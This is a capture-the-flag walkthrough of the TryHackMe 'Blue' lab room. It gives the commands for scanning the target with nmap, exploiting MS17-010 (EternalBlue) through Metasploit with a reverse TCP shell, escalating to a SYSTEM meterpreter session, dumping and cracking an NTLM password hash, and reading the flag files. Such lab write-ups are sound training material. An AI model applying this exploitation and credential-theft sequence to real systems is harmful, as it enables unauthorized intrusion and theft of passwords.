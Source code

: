 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Blue.'
---
```


# Blue

The room can be found [here](https://tryhackme.com/room/blue). This is a pretty straight forward room, the hints and video will pretty much help anyone through it as that's what this room is meant for, to help beginners learn.

## Task 1

### Question #1: Scan the machine

We'll scan the machine with Nmap first: sudo nmap -sS -sV -vv --script vuln -oA Blue 10.10.18.94

### Question #2: How many ports are open with a port number under 1000?

Looking through our scan results we can see:\


![Nmap Scan](<../../../.gitbook/assets/image (174).png>)

We can find our answer pretty easily.

### Question #3: What is this machine vulnerable to?

Our argument of --script vuln scanned the target for any known vulnerabilities, which returned:

![](<../../../.gitbook/assets/image (103) (1).png>)

showing the target is vulnerable to: ms17-010

## Task 2

### Question #2: Find the exploitation code we will run against the machine. What is the full path of the code?

With Metasploit up and loaded we search for ms17-010. `search ms17-010`

![](<../../../.gitbook/assets/image (71).png>)

We can see a couple different modules but as this room is called "Blue" we can guess we're after the Eternal Blue module "exploit/windows/smb/ms17\_010\_eternalblue". Knowing that is the module we want we can type out "use exploit/windows/smb/ms17\_010\_eternalblue" OR use # as in the number next to the module. For me it's 0.

Usually when selecting a module it's good to run `show options` to see what options are required to be set for this module to run. In this case, the only option that is not already set for us is the RHOST option, or our target. We set that with `set rhosts 10.10.18.94` and can verify by running `show options` again.

The room does specify one more thing before we exploit the target, it would like us to change the payload to "windows/x64/shell/reverse\_tcp" by running `set payload windows/x64/shell/reverse_tcp`.

With this payload option set, we can type `run` or `exploit` to get our shell on our target.

![](<../../../.gitbook/assets/image (36).png>)

## Task 3

Background our newly obtained shell with CTRL+Z.

### Question #1: Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

There's a few ways to obtain the answer to this question but rather than use google, we can do what we did before and search within metasploit. `search shell_to_meterpreter`

this should return `post/multi/manage/shell_to_meterpreter`. So let select this module with `use 0`

### Question 2: Show options, what option are we required to change?

As mentioned before, when selecting a module to use, it's usually good to run `show options` to see what options are required to be set to run this module. Running this will show you we need to set the SESSION with `set SESSION 1`.

Once that completes, reconnect back to the backgrounded session with `sessions -i 2` and verify we are the SYSTEM by running `getsystem`, we can also type `shell` and run `whoami`.

![](<../../../.gitbook/assets/image (166).png>)

Now we want migrate to a different process that is running as SYSTEM, so lets background that shell again with `CTRL+Z(Only do this IF we are in the shell and not in the meterpreter session.)`, and let's see whats other processes are running on this system by typing `ps`. Once we find a process that is already being run from the `NT AUTHORITY\SYSTEM` user, we want to take note of the PID, for example, conhost.exe, for me that PID is 2480. We can run `migrate 2480` to then migrate over to that process.

This may or may not work for you so try different processes to migrate to.

## Task 4

### Question #1: What is the name of the non-default user?

From our meterpreter session, we can run hashdump to show us all the users and hashed passwords of the users on the system.

![](<../../../.gitbook/assets/image (5) (1) (1).png>)

### Question #2: Copy this password hash to a file and research how to crack it. What is the cracked password?

Once we copy Jons NTLM hash `Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`. We can crack it for this we will use JohnTheRipper. I am running this from a personally setup VM so I have John installed into the /opt/ directory and will be using the classic rockyou.txt that I have stored inside SecLists password directory.

I have copied Jons hash to a file called jonhash in my current directory. So poninting JohnTheTipper at the hash and specifying the hash format and selecting the wordlist we want to use, we can attempt to crack the hash. `sudo /opt/john/run/john jon --format=NT --wordlist=/opt/SecLists/Passwords/rockyou.txt`

![](<../../../.gitbook/assets/image (170).png>)

## Task 5

I ran `search -f flag*.txt` from the meterpreter session and was able to locate the path to flags1 2 and 3. So you can then cat the file paths to obtains the flags as well:

cat c:\\\flag1.txt

cat c:\\\Windows\\\System32\\\config\\\flag2.txt

cat c:\\\Users\\\Jon\\\Documents\\\flag3.txt
